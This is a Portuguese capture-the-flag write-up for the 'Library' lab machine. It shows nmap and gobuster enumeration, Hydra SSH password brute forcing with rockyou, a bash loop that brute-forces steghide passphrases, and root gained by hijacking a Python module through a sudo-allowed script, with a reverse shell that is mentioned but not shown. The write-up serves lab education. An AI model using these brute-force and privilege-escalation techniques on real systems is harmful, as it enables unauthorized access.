


# _**Library**_


## _**Enumeração**_
Vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```  


Vamos executar também um scan com Gobuster
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```  


Enquanto investigamos os diretórios acessíveis, vamos realizar um scan Gobuster novamente em <mark>/images</mark>
> ```bash
> gobuster dir --url [ip_address]/images -w ../seclists/Discovery/Web-Content/common.txt
> ```  
  

Nenhum retorno útil  
Investigando o site, temos 3 usuários  


## _**Ganhando acesso**_
Investigando /robots.txt, temos:  



Provavelmente uma pista para usarmos a lista _**rockyou**_ em algum ataque de força bruta contra senhas  
Minha ideia, usuário _**anonymous**_ no serviço _**ssh**_. Vamos tentar com <mark>hydra</mark>
> ```bash
> hydra -l anonymous -P ../rockyou.txt ssh://[ip_address]
> ```

Desconfio que possivelmente em alguma das imagens que temos no diretório <mark>/images</mark> possa ter algo escondido  
Vamos converter todas para _**.jpg**_ e tentar extrair seu conteúdo com <mark>steghide</mark> realizando um ataque de força bruta com um _**script em bash**_  
```bash
#!/bin/bash

for password in $(cat /usr/share/wordlists/rockyou.txt); do
    	steghide extract -sf intro_back.jpg -p "$password" -xf out.txt -f > /dev/null 2>&1
    	if [ $? -eq 0 ]; then
            	echo "[+] senha encontrada? $password"
            	break
    	fi
done
```

Basta direcionar com a lista de senhas _**rockyou**_ e o nome do arquivo _.jpg_  
Tanto o _**brute**_ em _ssh_ ou em <mark>steghide</mark> não retornou algo útil  
Vamos buscar outras alternativas  
Investigando o site novamente, percebeu-se algo que passou batido, o nome de um usuário: <mark>meliodas</mark>  


Sabemos que uma das pistas é rockyou, indicando o uso de rockyou.txt  
Vamos tentar realizar um ataque de força bruta no serviço ssh
> ```bash
> hyhdra -l meliodas -P ../wordlists/rockyou.txt ssh://[ip_address]
> ```  


Sucesso!
Vamos realizar login como usuário meliodas  



Sucesso!
Vamos buscar a primeira _flag_
Com um ```ls```, encontramos no arquivo _user.txt_
E também encontramos outro arquivo, _bak.py_, vamos investigar  


Com ```sudo -l```, também temos que podemos usar <mark>/usr/bin/python*</mark> e <mark>/home/meliodas/bak.py</mark> sem a necessidade de senha e também com qualquer comando  
Este código zipa certos arquivos em certos diretórios  
Vamos verificar quais as permissões do arquivo com o comando abaixo.
> ```bash
> ls -l bak.py
> ```


Apenas _root_ pode editar  
Porém, podemos tentar editar algum trecho do qual o código busca  
Por exemplo, vamos tentar _**injeção de módulo**_  


Com <mark>export PYTHONPATH=/home/meliodas/os.py</mark>, tentamos fazer com que esse arquivo seja executado primeiro, mas não funcionou  


Acredito que a solução ainda possa estar no _path_  
Vamos tentar de outra maneira  
Primeiro, verificamos o <mark>$PATH</mark>  


Isso nos diz que <mark>/home/meliodas/bin</mark> é executado primeiro  
Sabemos que _**zipfile**_ também será executado  
Vamos criar um script em python para obter uma shell reversa através deste arquivo e executar o comando ```sudo /usr/bin/python /home/meliodas/bak.py```  

  

  

Sucesso! Obtermos _root shell_  
Basta simples 2 comandos para obtermos a última flag
